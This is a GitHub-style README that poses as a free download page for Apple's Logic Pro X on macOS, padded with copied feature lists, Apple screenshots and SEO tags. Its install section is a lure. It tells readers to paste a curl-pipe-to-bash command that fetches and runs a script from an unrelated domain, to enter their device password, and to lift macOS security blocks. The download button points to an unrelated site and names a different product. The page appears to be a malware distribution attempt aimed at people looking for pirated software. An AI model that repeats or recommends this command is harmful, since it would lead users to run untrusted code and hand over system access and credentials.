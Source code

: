 <p align="center">
  <img src="https://help.apple.com/assets/674E348875226BE5DE0356B0/674E348E7F8A79704E098EDD/en_US/390711ce08c61bf054d3dc4dfb9080ae.png" alt="Logic Pro X Mac Banner" />
</p>

<h1 align="center">Logic Pro X for macOS</h1>

<p align="center">
  🎶 Professional music production, mixing, and mastering – all in one powerful DAW.  
  <br><br>
  ✅ Optimized for Apple Silicon and Intel  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/106" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20FLINTO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Logic Pro X for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://www.apple.com/newsroom/images/2023/11/apple-supercharges-logic-pro-for-mac-and-ipad/article/Apple-Logic-Pro-Sample-Alchemy_big.jpg.large.jpg" alt="Logic Pro X Main Interface Screenshot" />
</p>


---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Logic Pro X?

**Logic Pro X** is Apple’s flagship digital audio workstation (DAW) for professional music production on macOS. It provides a comprehensive suite of tools for recording, editing, mixing, and mastering — all in a sleek, intuitive interface.

Used by producers, composers, and artists worldwide, Logic Pro X includes an extensive sound library, powerful MIDI tools, multi-track recording, and high-end audio effects and plugins.

Whether you're producing electronic beats, orchestral film scores, podcasts, or live band sessions, Logic Pro X delivers the precision, performance, and depth needed for any genre or workflow.

Fully optimized for both **Apple Silicon (M1/M2/M3)** and **Intel Macs**, Logic Pro X runs smoothly on **macOS Sonoma, Ventura, and Monterey** — making it a go-to platform for creators who demand speed and stability.

---

## ✅ Why Choose Logic Pro X?

- 🎼 **Studio-Grade DAW** – Trusted by industry professionals around the world  
- 🎹 **Huge Sound Library** – Thousands of instruments, loops, effects, and samples  
- 🎛️ **Mixer with Automation** – Full control over channels, busses, routing, and dynamics  
- 🧠 **Smart Tempo & Flex Time** – Advanced timing tools to align your performance perfectly  
- 🧩 **Plugin Suite Included** – Compressors, reverbs, EQs, amps, synths, and more  
- 🎧 **Dolby Atmos Support** – Create spatial mixes right inside the DAW  
- 🖥️ **Optimized for macOS** – Seamless performance on M1/M2/M3 and Retina displays  
- 🎙️ **Track Stacks & Live Loops** – Organize, trigger, and experiment with arrangement ideas  

> Whether you're an electronic producer, film scorer, or engineer, **Logic Pro X** gives you the power to create without limits.

---

## 📸 More Screenshots

<p align="center">
  <img src="https://www.apple.com/newsroom/images/product/apps/standard/Apple_Logic-Pro-X_Mac-Pro-Display-Pro_06132019_big.jpg.large.jpg" alt="Logic Pro X Mixer View Screenshot" />
  <br><br>
  <img src="https://dt7v1i9vyp3mf.cloudfront.net/styles/news_large/s3/imagelibrary/A/AppleLogic105_01-hLtOcjY0kB2TSFT30dII33WXL4f2TORL.jpg" alt="Logic Pro X Live Loops Screenshot" />
</p>

---

## 🚀 Key Features

- 🎚️ Multi-track audio & MIDI recording  
- 🧩 Built-in instruments and effects  
- 🎧 Real-time audio processing with zero latency  
- 🔄 Smart Tempo, Flex Pitch, and Time Stretch  
- 🪄 Step Sequencer & Drum Machine Designer  
- 🎬 Movie scoring with sync tools  
- 🌐 Sound library with frequent updates  
- 🖥️ Retina and Touch Bar support  

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**
- Allow Logic Pro X under "App Management"

---

## 🔍 Tags

```text
logic pro x mac download, logic pro x for macbook, logic pro x apple silicon, logic pro x full version mac, logic pro x for m1 mac, logic pro x daw macos, music production mac app, download logic pro x macos, logic pro x intel m1 support, logic pro x ventura compatible, mac logic pro music software, logic pro x m1 native, best daw for macbook, logic pro x macbook pro, logic pro x standalone installer
